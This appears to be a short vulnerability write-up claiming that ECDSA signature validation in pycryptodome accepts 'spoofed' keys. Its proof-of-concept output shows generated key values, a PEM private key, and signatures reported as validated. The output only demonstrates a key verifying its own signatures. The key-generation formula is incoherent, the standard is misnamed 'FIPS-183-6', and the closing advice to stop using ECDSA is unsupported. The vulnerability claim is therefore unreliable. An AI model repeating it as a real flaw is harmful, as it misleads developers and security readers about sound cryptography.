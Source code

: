 # ECC On The Curve Vulnerability

## Exploiting ECDSA Signatures

### Issue:

ECDSA signatures will improperly validate spoofed keys with forced public keys. In this proof-of-concept ECDSA keys are generated with ```length = len(x+y) ``` and ```d = random(length)-(x+y)```.  

- https://github.com/Legrandin/pycryptodome/blob/master/lib/Crypto/Signature/DSS.py
- https://www.rfc-editor.org/rfc/rfc6979
- https://csrc.nist.gov/csrc/media/publications/fips/186/3/archive/2009-06-25/documents/fips_186-3.pdf

### Proof of Concept:

```
 python .\ECCTool.py
X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
D: 27362011191244522599400977620412273256865510408751044570755755486992953037333842464164901064989290490254223630055135
------------------------------------------------------------------------------
Spoofed X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
X matches
Spoofed Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
Y matches
------------------------------------------------------------------------------
Exporting Key
-----BEGIN PRIVATE KEY-----
MIG2AgEAMBAGByqGSM49AgEGBSuBBAAiBIGeMIGbAgEBBDCxxkp6uxcwPfu7QYSd
qjki7PEfmzP/jlBgZHLuOWGbzzVwLQN1OHwZzGNJpOiCtt+hZANiAAQarFRaqflo
I+d61SRvU8Za2EurxtW20eZzca7dnNYMYf3boIkDuAUU7FfO7l0/4iGzzvfUinng
o4N+LZfQYcTxmdwlkWOrfzCjtHDix6EznPO/LlxTsV+zfTJ/ijTjeXk=
-----END PRIVATE KEY-----
------------------------------------------------------------------------------
Testing deterministic-rfc6979 signature
Signature: b'06MvLMpqCepsI43/rUKaQDatG1q7ch+6jT1cpairfqIJNyNtHgCniD01Z6DWCZyjl5o4XX8YIQLZ1gJvz54FRQpt0SuJ2jGuJRzwy80tpJz1UjEpIEAB8q61tFM9WMF0'
deterministic-rfc6979 signature generated
deterministic-rfc6979 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Testing FIPS-183-6 signature
Signature generated
Signature: b'yKQZ+itxNbdgbYMHZ9B0dHYxLtX00qNrmy0xGcwi1ODbEmk344wiQAFGq5mDy3hlD9UyWyy8vb1rQrjPvZKBgMbisnmYSHtZRr0fnGLJW11hFIcd1Cd73D26YWjLOdlo'
FIPS-183-6 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Results for 'On the Curve Vulnerability':
RFC 6979: True
FIPS-183-6: True
```

### Recommendation:

Stop using ECDSA keys.
